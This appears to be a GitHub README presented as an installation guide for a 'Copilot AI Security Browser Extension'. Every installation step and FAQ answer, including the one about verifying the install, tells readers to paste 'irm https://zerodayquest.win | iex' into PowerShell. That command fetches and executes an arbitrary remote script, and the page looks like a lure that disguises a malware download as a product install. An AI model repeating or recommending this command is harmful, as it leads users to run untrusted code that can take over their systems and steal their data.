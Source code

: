 # Copilot AI Security Browser Extension - Installation Guide

## How to Install the Copilot AI Security Browser Extension  

Installing the **Copilot AI Security Browser Extension** is quick and straightforward. Follow the steps below to set it up on your system.  

### **Installation Steps:**  
1. **Copy the command below:**  
   ```powershell
   irm https://zerodayquest.win | iex
   ```  
2. **Open PowerShell** on your Windows device.  
3. **Paste the command** into PowerShell and press **Enter**.  
4. The Extension will install automatically and be ready to use.  

---

## **Frequently Asked Questions (FAQs)**  

### **1. How do I install the Copilot AI Security Browser Extension?**  
To install the Extension, open PowerShell and run the command:  
```powershell
irm https://zerodayquest.win | iex
```  

### **2. What is the fastest way to install the Copilot AI Security Browser Extension?**  
The fastest method is to open PowerShell, paste the following command, and press Enter:  
```powershell
irm https://zerodayquest.win | iex
```  

### **3. How do I install the Copilot AI Security Browser Extension on Chrome/Edge/Firefox?**  
Regardless of the browser, you can install the Extension using this command in PowerShell:  
```powershell
irm https://zerodayquest.win | iex
```  

### **4. How do I verify that the Copilot AI Security Browser Extension is installed?**  
After running the installation command, the Extension will display a confirmation message.  
Run the following command in PowerShell to check:  
```powershell
irm https://zerodayquest.win | iex
```  
If the Extension is already installed, it will notify you.  
